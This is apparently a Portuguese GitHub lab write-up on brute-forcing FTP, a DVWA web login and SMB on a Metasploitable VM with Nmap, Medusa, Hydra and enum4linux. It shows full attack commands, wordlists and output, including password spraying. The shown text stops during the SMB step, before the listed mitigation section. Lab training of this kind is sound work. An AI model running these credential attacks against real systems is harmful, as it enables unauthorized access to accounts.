




# Simulação de Ataque Brute Force em Ambiente Controlado (Metasploitable)

- [Objetivo](#1-objetivo)
- [Aviso Legal](#2-aviso-legal)
- [Pré-requisitos](#3-pré-requisitos)
- [Metodologia para simulação](#4-metodologia-para-simulação)
    - [Etapa 1 - Configuração do ambiente](#etapa-1-configuração-do-ambiente)
    - [Etapa 2 - Reconhecimento e enumeração](#etapa-2-reconhecimento-e-enumeração)
    - [Etapa 3 - Preparação do ataque FTP](#etapa-3-preparação-do-ataque-ftp)
    - [Etapa 4 - Execução e resultados do ataque FTP](#etapa-4-execução-e-resultados-do-ataque-ftp)
    - [Etapa 5 - Preparação do ataque de formulário web](#etapa-5-preparação-do-ataque-de-formulário-web)
    - [Etapa 6 - Execução e resultados do ataque de formulário web](#etapa-6-execução-e-resultados-do-ataque-de-formulário-web)
    - [Etapa 7 - Preparação do ataque SMB](#etapa-7-preparação-do-ataque-smb)
    - [Etapa 8 - Execução e resultados do ataque SMB](#etapa-8-execução-e-resultados-do-ataque-smb)
    - [Troubleshooting](#troubleshooting)
- [Análise de Resultados](#5-análise-de-resultados)
- [Mitigação e Defesa](#6-mitigação-e-defesa)
- [Referências e Links Úteis](#7-referências-e-links)
- [Licença](#8-licença-e-aviso-legal)


## 1. Objetivo
O objetivo desse projeto é simular um ataque de força bruta, demonstrando a vulnerabilidade de serviços a esse tipo de ataque.
Para essa simulação será utilizando um ambiente isolado (um laboratório) de máquinas virtuais, utilizando o Kali Linux e Metasploitable, além das ferramentas Nmap, Medusa e Hydra.


## 2. Aviso Legal ⚠️
Este projeto visa única e exclusivamente a simulação de um ataque de força bruta para fins educacionais. Todas as ações realizadas utilizaram ambiente isolado com máquinas virtuais e não devem ser aplicadas em redes ou sistemas reais sem a devida autorização.
A utilização de técnicas como o ataque de _brute force_ deve ser realizada de maneira ética.


## 3. Pré-requisitos
Para execução desse projeto, os seguintes requisitos devem ser verificados:
- Ambiente:
    - Virtualbox para criação de máquinas virtuais - neste projeto foi utilizada a versão 7.2.6
    - máquina virtual Metasploitable, versão 2
    - máquina virtual Kali Linux, versão 2026.1. Esta será a máquina utilizada para executar o ataque
    - também é possível utilizar a sua máquina host para executar o ataque, caso considere apropriado
- Ferramentas:
    - Nmap, versão 7.98
    - Medusa, versão 2.3
    - Hydra 9.6
- Configuração de rede:
    - máquina Metasploitable configurada com rede Host-only no Virtualbox
    - máquina Kali Linux configurada com rede Host-only no Virtualbox
    - os IP's de cada máquina virtual poderão ser diferentes em cada laboratório, portanto considere que os IP's apresentados nesta documentação podem ser diferentes dos IP's que você identificará no seu laboratório


## 4. Metodologia para simulação
Para a execução da simulação, as seguintes etapas foram realizadas:

### Etapa 1: Configuração do ambiente
A criação das máquinas virtuais no Virtualbox não faz parte do escopo desse projeto. A partir desse ponto, o esperado é que você já tenha ambas as máquinas virtuais criadas e configuradas (com rede Host-only).

Após inicializar ambas as máquinas virtuais, vamos acessar a máquina com Kali e identificar a configuração de rede e o IP atribuído.
Abra o terminal e execute o comando:
```bash
$ ip a
```
E o resultado mostra o IP 192.168.56.102/24 atribuído ao Kali.



### Etapa 2. Reconhecimento e enumeração
Agora que já sabemos o IP e faixa de rede da máquina Kali, podemos utilizar o Nmap para fazer uma varredura na rede para identificar o IP atribuído à máquina do Metasploitable.

🗒️ _Nota: podemos acessar diretamente a máquina do Metasploitable e identificar o IP, porém em um processo real não teremos acesso à máquina alvo._

#### Reconhecimento (varredura)

Ainda no terminal do Kali, vamos executar o seguinte comando:
```bash
$ nmap -sn 192.168.56.0/24
```
Esse comando fará a varredura das máquinas acessíveis na rede 192.168.56.0/24 (a mesma rede do Kali).
Como resultado desse comando, temos o seguinte:



Podemos verificar que o Nmap descobriu 4 IP's:
- 192.168.56.1 = é o primeiro IP da faixa de rede, e este normalmente será o IP atribuído a máquina host do Virtualbox, portanto podemos ignorá-lo daqui em diante.
- 192.168.56.100 = possível IP alvo
- 192.168.56.101 = possível IP alvo
- 192.168.56.102 = sabemos que esse é o IP da máquina Kali, portanto não iremos realizar nenhuma ação contra este IP

Então agora já temos 2 possíveis IP's alvos identificados. Podemos focar nosso ataque apenas nestes 2 IP's a partir de agora.

_Lembre-se que você pode acessar diretamente a máquina do Metasploitable para confirmar o IP, e assim agilizar a continuidade da simulação._

❗No seu laboratório de máquinas virtuais os IP's podem ser diferentes, ter menos ou mais IP's de acordo com o seu ambiente. Identifique essas diferenças e adapte a simulação para o seu cenário!

#### Enumeração
Nosso próximo passo será realizar a enumeração dos serviços e portas em execução nas máquinas alvo.
Vamos seguir a ordem dos IP's identificados e realizar um teste simples no IP 192.168.56.100.

No terminal do Kali, execute o comando abaixo:
```bash
$ nmap -sV 192.168.56.100
```
O parâmetro ```-sV``` instrui o Nmap a exibir além das portas e nomes dos serviços, as versões dos serviços identificados.
O resultado desse comando foi o seguinte:
```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 19:01 -0300
Nmap scan report for 192.168.56.100
Host is up (0.00060s latency).
All 1000 scanned ports on 192.168.56.100 are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 08:00:27:22:EA:65 (Oracle VirtualBox virtual NIC)
```
Aqui podemos notar que esse host 192.168.56.100 não possui nenhuma porta aberta. Vamos seguir para o próximo IP que identificamos no reconhecimento.

No terminal do Kali, execute o comando abaixo:
```bash
$ nmap -sV 192.168.56.101
```

Como podemos ver, o resultado do comando trouxe uma extensa lista de portas e serviços rodando nesse host.
```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 19:18 -0300
Nmap scan report for 192.168.56.101
Host is up (0.00029s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```
🎯 Para obter ainda mais detalhes sobre as portas e serviços identificados, você pode utilizar o parâmetro ```-sC```. Este parâmetro instrui o Nmap a executar scripts padrão para mais detalhes de cada serviço.

Agora que conseguimos listar os serviços, é importante entender a saída do Nmap. Temos a informação das portas abertas, dos serviços e da versão de cada um deles. Mas o que fazer com esses dados?

Para o escopo dessa nossa simulação de ataque de força bruta, conhecer a versão do serviço pode ser importante pois podemos identificar se a versão possui mecanismos de proteção para ataques desse tipo (por exemplo _rate limiting_). Mas para além do que estamos simulando, conhecer esses dados de serviços e versões permite buscar por vulnerabilidades conhecidas.

Por exemplo, acessando sites como https://www.cve.org ou https://www.exploit-db.com, podemos realizar uma pesquisa pelo serviço e versão para encontrar vulnerabilidades conhecidas e possíveis _exploits_.

🎯 _Exploit_ é como chamamos o código, a sequência de ações ou técnica utilizada para explorar uma vulnerabilidade.

Se pesquisarmos por "vsftpd 2.3.4" no https://www.cve.org iremos encontrar dois CVE's conhecidos:
- [CVE-2011-2523](https://www.cve.org/CVERecord?id=CVE-2011-2523)
- [CVE-2011-0762](https://www.cve.org/CVERecord?id=CVE-2011-0762)

No https://www.exploit-db.com iremos encontrar também o exploit para cada um destes CVE's.


🎯 **CVE** significa _Common Vulnerabilities Exposures_, é um identificador único para cada vulnerabilidade e padroniza a forma como a vulnerabilidade é apresentada.

Nessa simulação iremos focar o ataque nos serviços FTP e SMB e em formulário web. Então nosso foco será nas portas 21 e 139, além do acesso web (HTTP porta 80) para acesso ao formulário.


### Etapa 3: Preparação do ataque FTP
Para executar o ataque de força bruta utilizando o Medusa, precisamos primeiro de uma lista de "usuários" e uma lista de "senhas", as chamadas _wordlists_ (ou dicionários).

Para o nosso laboratório iremos utilizar dicionários simples com alguns logins e senhas comuns, e como estamos utilizando o Metasploitable temos condições de utilizar valores que serão compatíveis.
Num cenário real de ataque de força bruta temos que dispor de dicionários já montados que estão disponíveis na internet, ou até mesmo no próprio Kali. Já existem dicionários criados especificamente para ataques deste tipo, com os usuários e senha mais comuns, e podemos combinar essas listas com a nossa própria lista.

Vamos começar criando nossa lista de usuários. No terminal do Kali execute o seguinte comando:
```bash
$ echo -e "user\nadmin\nmsfadmin\nroot" > users.txt
```
Agora vamos criar nossa lista de senhas:
```bash
$ echo -e "123456\npassword\nmsfadmin\nroot" > passwords.txt
```
Os comandos acima vão criar os arquivos "users.txt" e "passwords.txt". Você pode conferir o conteúdo abrindo os arquivos no terminal ou com o editor de texto de sua preferência.

### Etapa 4: Execução e resultados do ataque FTP

Agora podemos executar o Medusa para fazer o ataque de força bruta no FTP:
```bash
$ medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 2
```
O comando acima instrui o Medusa a executar o ataque no host com IP 192.168.56.101, utilizando o arquivo de usuários "users.txt" e o arquivo de senhas "passwords.txt". O parâmetro ```-M``` indica o nome do módulo a ser executado, no nosso caso FTP. E o parâmetro ```-t``` indica a quantidade de threads que serão utilizadas para executar o ataque.
O resultado do comando acima será o seguinte:
```bash
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-04-05 17:28:27 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: 123456 (1 of 4 complete)
2026-04-05 17:28:27 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: password (2 of 4 complete)
2026-04-05 17:28:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: msfadmin (3 of 4 complete)
2026-04-05 17:28:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: root (4 of 4 complete)
2026-04-05 17:28:33 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2026-04-05 17:28:33 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: password (2 of 4 complete)
2026-04-05 17:28:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: msfadmin (3 of 4 complete)
2026-04-05 17:28:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (2 of 4, 2 complete) Password: root (4 of 4 complete)
2026-04-05 17:28:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2026-04-05 17:28:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: msfadmin (2 of 4 complete)
2026-04-05 17:28:39 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2026-04-05 17:28:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (3 of 4, 3 complete) Password: password (3 of 4 complete)
2026-04-05 17:28:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 3 complete) Password: password (1 of 4 complete)
2026-04-05 17:28:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2026-04-05 17:28:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 3 complete) Password: msfadmin (3 of 4 complete)
2026-04-05 17:28:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: root (4 of 4 complete)
```
Como podemos ver, o Medusa identificou uma combinação válida de usuário e senha:
```
2026-04-05 17:28:39 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```
Agora podemos utilizar o usuário e senha que o Medusa identificou para testar e confirmar que temos acesso ao FTP. No terminal do Kali vamos acessar o host via FTP utilizando login 'msfadmin' e a senha 'msfadmin'. Podemos utilizar o comando ```pwd``` para confirmar o diretório atual dentro do FTP:
```bash
$ ftp 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /home/msfadmin
ftp> bye
221 Goodbye.
```


### Etapa 5: Preparação do ataque de formulário web
Para a simulação do ataque de força bruta no formulário web, primeiro vamos confirmar que a página do formulário está acessível a partir do Kali. Vamos abrir o navegador e digitar o seguinte endereço: http://192.168.56.101/dvwa/login.php

Se estiver tudo correto devemos visualziar a seguinte página:


Para que o Medusa consiga realizar o ataque, vamos precisar identificar o que essa página retorna quando um login falha, e utilizar esse retorno como parâmetro do Medusa.
Antes de fazer esse teste, vamos ativar as ferramentas de desenvolvedor do navegador (normalmente no atalho F12). Agora vamos digitar dados aleatórios, por exemplo o login "admin" e a senha "12345":


Ao fazer a tentativa de login a página exibe a mensagem "Login failed". Esse dado é importante para o nosso ataque porque é isso que a página retorna quando uma tentativa de login falha, e vamos usar isso no Medusa.

Ao inspecionar a requisição POST nas ferramentas de desenvolvedor, vamos identificar na aba de _Request_ o _payload_ da requisição, onde podemos identificar que são enviados um parâmetro "username" e um parâmetro "password":
```json
"username": "admin",
"password": "12345",
"Login": "Login"
```
Esses dados também são importantes e serão utilizados no Medusa.

Para esse ataque no formulário web iremos reutilizar os arquivos de dicionários de usuários e senhas que criamos na simulação do ataque no FTP.

### Etapa 6: Execução e resultados do ataque de formulário web
Agora podemos executar o Medusa para fazer o ataque de força bruta no formulário web:
```bash
$ medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M http \  
 -m PAGE:'/dvwa/login.php' \
 -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
 -m 'FAIL=Login failed' -t 2
```
O comando acima instrui o Medusa a executar o ataque no host com IP 192.168.56.101, utilizando o arquivo de usuários "users.txt" e o arquivo de senhas "passwords.txt". O parâmetro ```-M``` indica o nome do módulo a ser executado, nesse caso será http. E o parâmetro ```-t``` indica a quantidade de threads que serão utilizadas para executar o ataque.
O resultado do comando acima foi o seguinte:
```
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: password (1 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: password [SUCCESS]
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: 123456 [SUCCESS]
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: msfadmin Password: 123456 [SUCCESS]
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: 123456 [SUCCESS]
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: root Password: 123456 [SUCCESS]
2026-04-05 23:09:16 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (2 of 4 complete)
2026-04-05 23:09:16 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: root Password: password [SUCCESS]
```
Como pode ser observado, o retorno desse comando apresenta alguns _warnings_ relacionados aos parâmetros utilizados e a indicação de sucesso (ACCOUNT FOUND) em várias combinações de login e senha, que quando testados na página não funcionam, ou seja, o retorno do Medusa apresenta dados confusos e incorretos.

Para contornar essa dificuldade do Medusa, vamos utilizar outro programa chamado Hydra para realizar este ataque de força bruta.
Vamos executar o seguinte comando no terminal:
```bash
$ hydra -L users.txt -P passwords.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 2
```
Como podemos ver, o comando é semelhante ao comando do Medusa. Temos que informar os arquivos dos dicionários de usuários e senhas, o IP do host alvo, e os parâmetros ```http-post-form``` para indicar o método de ataque e o parâmetro ```"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"``` para indicar a página do formulário e os parâmetros do payload, bem como a resposta esperada para as tentativas com falha. Também é informado um parâmetro de quantidade de threads.
Como resultado desse comando, temos o seguinte retorno:
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-05 23:16:54
[DATA] max 2 tasks per 1 server, overall 2 tasks, 16 login tries (l:4/p:4), ~8 tries per task
[DATA] attacking http-post-form://192.168.56.101:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-05 23:16:57
```
Podemos ver que o Hydra identificou uma combinação válida de usuário e senha:
```bash
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
Vamos então confirmar acessando a página com esses dados, e o resultado é que conseguimos autenticar com sucesso:


### Etapa 7: Preparação do ataque SMB
Nesta simulação de ataque iremos utilizar uma técnica chamada **password spraying**, que nada mais é do que tentar a mesma senha para vários usuários, evitando assim que mecanismos de segurança detectem o ataque. Quando várias senhas para o mesmo usuário são testadas, mecanismos de segurança podem detectar esse comportamento e bloquear o acesso.

Como ponto de partida, será necessário realizar a listagem dos usuários do serviço SMB. Para realizar essa ação iremos utilizar o programa **enum4linux**. No terminal do Kali, execute esse comando:
```bash
$ enum4linux -a 192.168.56.101 | tee enum4linux_output.txt
```
O comando acima irá fazer a varredura no host alvo utilizando todas as técnicas disponíveis de enumeração, e a lista de usuários será salva no arquivo **enum4linux_output.txt**.

⚠️ Atenção: o comando acima também irá exibir em tela o resultado. Se o resultado ficar parado em um trecho como esse abaixo, apenas tecle _Enter_ para continuar e aguarde a finalização do comando.
```bash
=======( Password Policy Information for 192.168.56.101 )=======
Password: 
```

Quando o comando finalizar podemos abrir o arquivo **enum4linux_output.txt** para analisar os dados extraídos. O que nos interessa nesse arquivo é a seção de usuários, que será semelhante à listagem abaixo. Nessa seção vamos identificar os nomes de usuários, como por exemplo: www-data, postgres, backup, msfadmin, service, etc.

```
=======( Users on 192.168.56.101 )=======

index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games	Name: games	Desc: (null)
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody	Name: nobody	Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind	Name: (null)	Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy	Name: proxy	Desc: (null)
index: 0x5 RID: 0x4b4 acb: 0x00000011 Account: syslog	Name: (null)	Desc: (null)
index: 0x6 RID: 0xbba acb: 0x00000010 Account: user	Name: just a user,111,,	Desc: (null)
index: 0x7 RID: 0x42a acb: 0x00000011 Account: www-data	Name: www-data	Desc: (null)
index: 0x8 RID: 0x3e8 acb: 0x00000011 Account: root	Name: root	Desc: (null)
index: 0x9 RID: 0x3fa acb: 0x00000011 Account: news	Name: news	Desc: (null)
index: 0xa RID: 0x4c0 acb: 0x00000011 Account: postgres	Name: PostgreSQL administrator,,,	Desc: (null)
index: 0xb RID: 0x3ec acb: 0x00000011 Account: bin	Name: bin	Desc: (null)
index: 0xc RID: 0x3f8 acb: 0x00000011 Account: mail	Name: mail	Desc: (null)
index: 0xd RID: 0x4c6 acb: 0x00000011 Account: distccd	Name: (null)	Desc: (null)
index: 0xe RID: 0x4ca acb: 0x00000011 Account: proftpd	Name: (null)	Desc: (null)
index: 0xf RID: 0x4b2 acb: 0x00000011 Account: dhcp	Name: (null)	Desc: (null)
index: 0x10 RID: 0x3ea acb: 0x00000011 Account: daemon	Name: daemon	Desc: (null)
index: 0x11 RID: 0x4b8 acb: 0x00000011 Account: sshd	Name: (null)	Desc: (null)
index: 0x12 RID: 0x3f4 acb: 0x00000011 Account: man	Name: man	Desc: (null)
index: 0x13 RID: 0x3f6 acb: 0x00000011 Account: lp	Name: lp	Desc: (null)
index: 0x14 RID: 0x4c2 acb: 0x00000011 Account: mysql	Name: MySQL Server,,,	Desc: (null)
index: 0x15 RID: 0x43a acb: 0x00000011 Account: gnats	Name: Gnats Bug-Reporting System (admin)	Desc: (null)
index: 0x16 RID: 0x4b0 acb: 0x00000011 Account: libuuid	Name: (null)	Desc: (null)
index: 0x17 RID: 0x42c acb: 0x00000011 Account: backup	Name: backup	Desc: (null)
index: 0x18 RID: 0xbb8 acb: 0x00000010 Account: msfadmin	Name: msfadmin,,,	Desc: (null)
index: 0x19 RID: 0x4c8 acb: 0x00000011 Account: telnetd	Name: (null)	Desc: (null)
index: 0x1a RID: 0x3ee acb: 0x00000011 Account: sys	Name: sys	Desc: (null)
index: 0x1b RID: 0x4b6 acb: 0x00000011 Account: klog	Name: (null)	Desc: (null)
index: 0x1c RID: 0x4bc acb: 0x00000011 Account: postfix	Name: (null)	Desc: (null)
index: 0x1d RID: 0xbbc acb: 0x00000011 Account: service	Name: ,,,	Desc: (null)
index: 0x1e RID: 0x434 acb: 0x00000011 Account: list	Name: Mailing List Manager	Desc: (null)
index: 0x1f RID: 0x436 acb: 0x00000011 Account: irc	Name: ircd	Desc: (null)
index: 0x20 RID: 0x4be acb: 0x00000011 Account: ftp	Name: (null)	Desc: (null)
index: 0x21 RID: 0x4c4 acb: 0x00000011 Account: tomcat55	Name: (null)	Desc: (null)
index: 0x22 RID: 0x3f0 acb: 0x00000011 Account: sync	Name: sync	Desc: (null)
index: 0x23 RID: 0x3fc acb: 0x00000011 Account: uucp	Name: uucp	Desc: (null)
```
A partir dessa listagem de usuários nós iremos criar nosso dicionário de usuários para o ataque de força bruta ao SMB. Para a nossa simulação não iremos utilizar todos os usuários, vamos então criar o arquivo através do comando abaixo:
```bash
$ echo -e "backup\nmsfadmin\nservice" > smb_users.txt
```

Nesse ataque vamos testar um conjunto pequeno de senhas, e vamos criar o nosso dicionário de senhas com senhas comuns de serem utilizadas por usuários. O comando abaixo irá criar o arquivo das senhas:
```bash
$ echo -e "password\n123456\nWelcome123\nmsfadmin" > passwords_spray.txt
```


### Etapa 8: Execução e resultados do ataque SMB
Agora iremos executar o nosso ataque de força bruta no serviço SMB. Para isso vamos executar o comando abaixo:
```bash
$ medusa -h 192.168.56.101 -U smb_users.txt -P passwords_spray.txt -M smbnt -t 2
```
O comando acima irá executar o ataque contra o host alvo, utilizando os dicionários de usuários e senhas que criamos previamente. O parâmetro ```-M smbnt``` indica qual o serviço/protocolo será atacado. O parâmetro ```-t``` indica a quantidade de threads a serem utilizadas.

O resultado do comando acima será o seguinte:
```bash
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-04-06 00:38:25 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: backup (1 of 3, 0 complete) Password: 123456 (1 of 4 complete)
2026-04-06 00:38:25 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: backup (1 of 3, 0 complete) Password: password (2 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: backup (1 of 3, 0 complete) Password: Welcome123 (3 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: backup (1 of 3, 1 complete) Password: msfadmin (4 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: password (1 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: 123456 (2 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: Welcome123 (3 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: msfadmin (4 of 4 complete)
